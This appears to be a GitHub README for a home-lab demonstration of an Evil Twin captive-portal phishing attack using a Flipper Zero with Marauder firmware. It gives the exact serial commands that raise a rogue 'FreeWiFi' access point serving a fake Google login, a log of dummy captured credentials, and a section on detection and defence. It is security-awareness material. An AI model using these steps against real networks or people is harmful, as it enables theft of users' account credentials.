

# Wi-Fi Credential Harvesting via Evil Portal — Flipper Zero + Marauder Firmware


> A hands-on **red-team / security-awareness lab** demonstrating how a rogue access point (Evil Twin) paired with a captive-portal phishing page can harvest Wi-Fi and account credentials — built entirely on a Flipper Zero with the ESP32 Wi-Fi Dev Board running Marauder firmware.


---

## ⚠️ Legal & Ethical Disclaimer

This project was performed in a **controlled, isolated environment using only the author's own devices and test accounts**. It is published strictly for **education, defensive research, and security awareness**.

Deploying rogue access points or captive-portal phishing against networks, devices, or people **without explicit written authorization is illegal** in most jurisdictions (e.g., the U.S. Computer Fraud and Abuse Act, the UK Computer Misuse Act, India's IT Act §66). **You are solely responsible for how you use this information.**

> See [`DISCLAIMER.md`](DISCLAIMER.md) for the full terms before proceeding.

---

## 📌 Overview

A **captive portal** is the "sign-in" web page you see when joining public Wi-Fi (hotels, airports, cafés). The **Evil Portal** attack abuses that familiar pattern:

1. The attacker broadcasts an **open rogue access point** with an inviting SSID (e.g., `FreeWiFi`).
2. When a victim connects, their device's **captive-portal detection** automatically opens a browser.
3. The attacker serves a **cloned login page** (here, a Google sign-in clone).
4. Any credentials the victim submits are **captured and written to logs** on the Flipper Zero's SD card.

This repository documents the full methodology, the exact Marauder commands used, the captive-portal payload, a sanitized capture log, and — most importantly — **how to detect and defend against this attack**.

---

## 🧰 Hardware & Software

| Component | Details |
|-----------|---------|
| **Flipper Zero** | Multi-tool device acting as host / UI and SD-card log store |
| **Wi-Fi Dev Board** | ESP32-WROOM (Flipper Zero Wi-Fi Module v1) connected over GPIO |
| **Firmware** | [Marauder](https://github.com/justcallmekoko/ESP32Marauder) (ESP32 Wi-Fi/Bluetooth offensive toolkit) |
| **Module** | Evil Portal (captive-portal + rogue AP) |
| **Flashing tool** | [qFlipper](https://flipperzero.one/update) / [Marauder Web Flasher](https://sfbserbia.github.io/Flipper-Marauder-flasher/) |
| **Payload** | Custom HTML Google login clone ([`src/portal/google_login.html`](src/portal/google_login.html)) |
| **Host OS** | Windows 11 (serial console over `\\.\COM4`) |

---

## 🔬 Attack Workflow

```
                 ┌──────────────────────────┐
                 │   Flipper Zero + ESP32    │
                 │   (Marauder: Evil Portal) │
                 └───────────┬──────────────┘
                             │ broadcasts open AP
                             ▼
     SSID: "FreeWiFi"  ──►  📶  Rogue Access Point (172.0.0.1)
                             │
          victim connects    │   DNS + HTTP redirect
                             ▼
                 ┌──────────────────────────┐
                 │  Captive portal triggers  │
                 │  Fake Google login page   │
                 └───────────┬──────────────┘
                             │ victim submits creds
                             ▼
                 ┌──────────────────────────┐
                 │  u: … / p: … → log_N.txt  │
                 │  stored on Flipper SD     │
                 └──────────────────────────┘
```

### Step-by-step

| # | Phase | Action |
|---|-------|--------|
| 1 | **Flash firmware** | Flashed Marauder onto the ESP32 Wi-Fi dev board via qFlipper. |
| 2 | **Open module** | On Flipper: `Apps → GPIO → ESP32 → Evil Portal`. |
| 3 | **Set SSID** | Configured the rogue AP name as `FreeWiFi` to lure connections. |
| 4 | **Load payload** | `Select HTML` → chose the custom Google login clone. |
| 5 | **Launch** | Started the Evil Portal; ESP32 raised an open AP + web server at `172.0.0.1`. |
| 6 | **Victim connects** | Test device joined `FreeWiFi`; captive-portal detection opened the fake page. |
| 7 | **Capture** | Submitted test credentials were streamed back to Flipper and saved to `log_N.txt`. |

Full narrative with the exact serial transcript is in [`docs/methodology.md`](docs/methodology.md).
Firmware flashing + board wiring is in [`docs/setup.md`](docs/setup.md).

---

## 🖥️ Marauder Serial Commands

The Evil Portal was driven through Marauder's serial interface. Captured transcript ([`src/logs/sample_log.txt`](src/logs/sample_log.txt)):

```text
#setap=FreeWiFi
> #clearlist -a -s -c
access_points: 0
stations: 0
ssids: 0
stations: 0
> #ssid -a -n 'FreeWiFi'
FreeWiFi
> #evilportal -c sethtmlstr
Setting HTML from serial...
html set
> #evilportal -c start
Starting Evil Portal. Stop with stopscan
AP name from SSID list: FreeWiFi
ap config set
html previously set
starting ap FreeWiFi
ap ip address: 172.0.0.1
web server up
> u: example@gmail.com p: examplepassword   ← harvested credentials
client connected
```

> ℹ️ All captured credentials shown are **dummy test values** (`example@gmail.com` / `examplepassword`). No real accounts were involved.

---

## 📸 Demonstration Walkthrough

| Stage | Screenshot |
|-------|-----------|
| Flashing Marauder with qFlipper |  |
| Setting the rogue SSID `FreeWiFi` |  |
| Evil Portal menu on the Flipper |  |
| Starting the Evil Portal / web server up |  |
| Rogue access point broadcasting |  |
| Victim sees the cloned Google login |  |
| Credentials captured |  |
| Logs written to SD card |  |

> Full-resolution images are in [`assets/images/`](assets/images/).

---

## 🛡️ Detection & Mitigation

This is the part that matters. Understanding the attack is only useful if you can defend against it.

**For users**
- ❌ Never enter credentials on an **open** (passwordless) network's login page.
- 🔒 Check for **HTTPS + a valid certificate** — captive-portal clones are almost always plain HTTP (`msftconnecttest.com/redirect`, `Not secure`).
- 📵 Disable **auto-join** for open/public networks; forget networks like `FreeWiFi` after use.
- 🔑 Use a **password manager** — it won't autofill credentials on a spoofed domain.
- 🛂 Enable **MFA** everywhere so a stolen password alone is useless.
- 🧅 Use a trusted **VPN** on untrusted networks.

**For network defenders**
- 📡 Deploy a **Wireless Intrusion Detection System (WIDS)** to flag duplicate/evil-twin SSIDs and deauth floods.
- 🏷️ Educate staff; run **phishing/rogue-AP awareness drills**.
- 🧭 Enforce **802.1X / WPA3-Enterprise** so clients authenticate the network, not just vice-versa.
- 📊 Monitor for rogue BSSIDs and unexpected open APs matching corporate names.

More in [`docs/defense.md`](docs/defense.md).

---

## 📂 Repository Structure

```
.
├── README.md                  # This file
├── DISCLAIMER.md              # Full legal & ethical terms
├── LICENSE                    # MIT (with ethical-use notice)
├── .gitignore
├── docs/
│   ├── setup.md              # Firmware flashing & hardware wiring
│   ├── methodology.md        # Detailed step-by-step walkthrough
│   └── defense.md            # Detection & mitigation deep-dive
├── src/
│   ├── portal/
│   │   └── google_login.html # Captive-portal payload (defanged clone)
│   └── logs/
│       └── sample_log.txt    # Sanitized Marauder capture log
└── assets/
    └── images/               # Screenshots of the full workflow
```

---

## 🎯 Key Takeaways

- Rogue APs + captive portals turn a **familiar UX pattern into an attack vector** — no exploit or malware required, just social engineering.
- Consumer hardware (**Flipper Zero + a ~$10 ESP32**) is enough to run a convincing phishing AP.
- The single strongest user-side defense is simple: **treat every open-network login page as hostile, and verify HTTPS.**

---

## 📚 References

- [ESP32 Marauder — justcallmekoko](https://github.com/justcallmekoko/ESP32Marauder)
- [Marauder Evil Portal module](https://github.com/justcallmekoko/ESP32Marauder/wiki/Evil-Portal)
- [Flipper Zero Wi-Fi Dev Board docs](https://docs.flipper.net/wifi-devboard)
- [MITRE ATT&CK — T1557 Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557/)
- [OWASP — Social Engineering](https://owasp.org/www-community/attacks/Social_engineering)

> Documented as part of a personal hands-on security research portfolio.
> Built and tested in a personal lab for educational purposes. Hack responsibly. 🔐
